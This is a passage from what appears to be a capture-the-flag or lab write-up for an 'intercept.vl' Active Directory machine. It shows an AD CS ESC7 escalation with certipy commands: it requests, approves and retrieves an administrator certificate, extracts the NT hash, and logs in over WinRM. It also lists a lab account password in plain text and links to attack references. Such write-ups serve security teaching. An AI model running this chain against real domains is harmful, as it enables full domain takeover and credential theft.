 ```bash
certipy req -u 'Simon.Bowen@intercept.vl' -p 'b0OI_fHO859+Aw' -ca INTERCEPT-DC01-CA -dc-ip 10.10.172.149 -template SubCA -upn administrator@intercept.vl
```

<img src="https://i.imgur.com/hz23PhW.png"/>

Having the manage certificates rights, we can validate the failed request since we have the key

```bash
certipy ca -ca 'INTERCEPT-DC01-CA' -issue-request 3 -u 'Simon.Bowen@intercept.vl' -p 'b0OI_fHO859+Aw' -dc-ip 10.10.172.149
```

<img src="https://i.imgur.com/ychLRMK.png"/>

And then retrieving the administrator's certificate

```bash
certipy req -ca 'INTERCEPT-DC01-CA' -retrieve 3 -u 'Simon.Bowen@intercept.vl' -p 'b0OI_fHO859+Aw' -dc-ip 10.10.172.149
```

<img src="https://i.imgur.com/j8dy7OA.png"/>

All that is left is to retrieve the NThash with the certificate

```bash
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'intercept.vl' -dc-ip 10.10.172.149
```

<img src="https://i.imgur.com/ZWpSkqy.png"/>
We can just login through WinRM on DC01

<img src="https://i.imgur.com/rDSo6wT.png"/>

# References

- https://github.com/Greenwolf/ntlm_theft
- https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient
- https://www.hackingarticles.in/lateral-movement-webclient-workstation-takeover/
- https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py
- https://www.r-tec.net/r-tec-blog-resource-based-constrained-delegation.html
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
- https://www.tarlogic.com/blog/ad-cs-esc7-attack/
- https://github.com/ShutdownRepo/impacket
- https://github.com/ShutdownRepo/impacket/blob/owneredit/examples/owneredit.py
